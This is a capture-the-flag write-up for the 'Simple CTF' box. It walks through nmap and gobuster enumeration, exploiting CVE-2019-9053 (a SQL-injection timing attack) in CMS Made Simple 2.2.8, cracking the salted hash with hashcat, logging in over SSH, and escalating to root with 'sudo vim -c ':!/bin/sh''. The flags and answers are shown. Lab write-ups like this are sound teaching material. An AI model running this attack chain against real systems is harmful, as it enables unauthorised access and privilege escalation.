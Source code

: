 # Simple CTF
 
Beginner level ctf

### #1 How many services are running under port 1000?
```
$ nmap -v -sC -sV -oN nmap/initial <IP>

Looking at the nmap scan result in nmap/initial, we can see that there are 2 port under 1000

2
```

### #2 What is running on the higher port?
```
Here higher port is 2222.

ssh
```

### #3 What's the CVE you're using against the application?
```
- Port 80 just has a default Apache server file, also robots.txt, which is not helpful. So we need to enumerate a bit further.
- I used gobuster and found a hidden directory called /simple
- going to /simple url, we found out that its using 'CMS made simple' and observing closely we find the version used is 2.2.8
- We can now try to find anything on searchploit/exploit-db for this. And we found the CVE

CVE-2019-9053
```

### #4 To what kind of vulnerability is the application vulnerable?
```
sqli
```

### #5 What's the password?
```
- to know the password we can use the exploit script found with CVE
NOTE: running this with python3, I faced some formatting issue. I have corrected it and saved here as exploit.py
Its a very cool script, do check it out. It uses SQL timing attack. At sometime the script was giving me weird output for username, email etc.
I suspected the time variable used was lesser and my connect had latency. So I had to increase TIME variable to 2 (seconds I guess)

$ ./exploit.py -u http://<IP>/simple/ -c -w /opt/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96

- the exploit.py should have cracked the password but it din't, not sure why. So I used the hashcat.

$ hashcat -m 20 "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" /opt/wordlists/best110.txt

secret
```

### #6 Where can you login with the details obtained?
```
ssh
```

### #7 What's the user flag?
```
- user flag can be found in user home

$ cat /home/mitch/user.txt

G00d j0b, keep up!
```

### #8 Is there any other user in the home directory? What's its name?
```
$ ls /home

This would show use the user directory, but we can also check for the /etc/passwd file

sunbath
```

### #9 What can you leverage to spawn a privileged shell?
```
$ sudo -l
(root) NOPASSWD: /usr/bin/vim

vim
```

### #10	What's the root flag?
```
$ sudo -l
(root) NOPASSWD: /usr/bin/vim

- This would say that we can run /usr/bin/vim as root.
- Looking for vim privesc on GTFObins we can find the following

$ sudo vim -c ':!/bin/sh'

W3ll d0n3. You made it!
```

## Extra notes

There is also a FTP port open, which can be logged in as `anonymous`. Logging in and listing the directory, we find `pub`.
Changing to it will reveal a txt doc called `ForMitch.txt`.
Printing this txt doc shows a sentence but its nothing much than a note. So its not of any help.
